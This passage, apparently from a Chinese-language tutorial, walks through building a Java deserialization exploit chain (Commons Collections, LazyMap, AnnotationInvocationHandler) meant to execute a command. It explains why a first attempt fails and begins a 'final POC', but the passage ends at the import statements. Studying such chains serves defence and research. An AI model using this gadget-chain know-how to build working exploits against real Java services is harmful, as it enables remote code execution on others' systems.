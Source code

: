 ```java
```

但运行后，经过反序列化并不会执行命令弹出计算器。断点调试一下，发现`memberValues`变量的赋值为`LazyMap`
![image-20220926111006320](images/image-20220926111006320.png)

因此在经过`this.memberValues.entrySet().iterator();`步入到`var4.next()`执行方法时，无法进入`AnnotationInvocationHandler`类的`invoke()`方法
![image-20220926111405695](images/image-20220926111405695.png)

所以我们需要再创建一次`AnnotationInvocationHandler`，触发我们前面的代理对象，最终 POC如下：
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
```